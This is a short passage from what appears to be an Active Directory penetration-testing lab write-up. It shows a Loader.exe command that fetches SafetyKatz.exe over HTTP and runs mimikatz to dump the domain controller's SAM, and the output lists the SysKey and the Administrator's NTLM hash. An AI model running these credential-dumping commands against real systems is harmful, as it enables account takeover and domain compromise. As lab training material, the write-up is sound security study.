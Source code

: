 ![HFS - SafetyKatz.exe](./assets/screenshots/learning_objective_11_hfs_safetykatz.png)

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-sam
Domain : DCORP-DC📌
SysKey : bab78acd91795c983aef0534e0db38c7
Local SID : S-1-5-21-627273635-3076012327-2140009870

SAMKey : f3a9473cb084668dcf1d7e5f47562659

RID  : 000001f4 (500)
User : Administrator🔑
  Hash NTLM: a102ad5753f4c441e3af31c97fad86fd🔑

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

mimikatz(commandline) # exit
Bye!
```


[172.16.2.1]: PS C:\Users\Administrator.DCORP-DC\Documents>